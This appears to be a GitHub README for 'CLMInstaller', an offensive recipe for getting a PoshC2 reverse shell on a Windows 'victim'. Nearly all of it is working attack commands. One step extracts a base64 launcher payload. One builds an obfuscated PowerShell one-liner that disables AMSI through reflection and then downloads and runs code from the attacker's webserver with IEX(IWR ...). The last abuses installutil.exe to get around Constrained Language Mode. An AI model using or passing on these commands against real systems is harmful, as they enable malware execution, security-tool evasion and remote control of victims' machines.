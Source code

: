 # CLMInstaller

Example for a Posh-Reverse-Shell
```
# On Victim
Set-Content -Value "192_168_45_209_8080_finance" -Path "C:\Windows\Tasks\finances.txt" -NoNewline
```
Create a file `finance` that will be being hosted on your webserver.
```
#ip="192.168.45.172";
ip=$(ip -4 addr show tun0 | grep -oP '(?<=inet\s)\d+(\.\d+){3}')
filename="payday.txt";

# Create payday.txt
cat /var/poshc2/rastalabs/payloads/Launcher.hta | grep -oP "(?<=hidden -e ).*(?=',)" | base64 -d | iconv -t utf-8 -f utf-16le > ./$filename

# Create finance 
echo -ne '$t = [Runtime.InteropServices.Marshal];$a = [Ref].Assembly.GetType("Sy" + "st" + "em.M" + "ana" + "gemen" + "t.Au" + "tom" + "ati" + "on." + "Am" + "si" + "Ut" + "ils"); $t::WriteInt32($a.GetField("am" + "si" + "Con" + "text",[Reflection.BindingFlags]"NonPublic,Static").GetValue($null),0x41414141);IEX(IWR -UseBasicParsing http://'$ip':8080/'$filename')' > finance
```

And then run the following command on the Victim:
```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=false /U C:\Windows\Tasks\CLMInstaller.exe
```
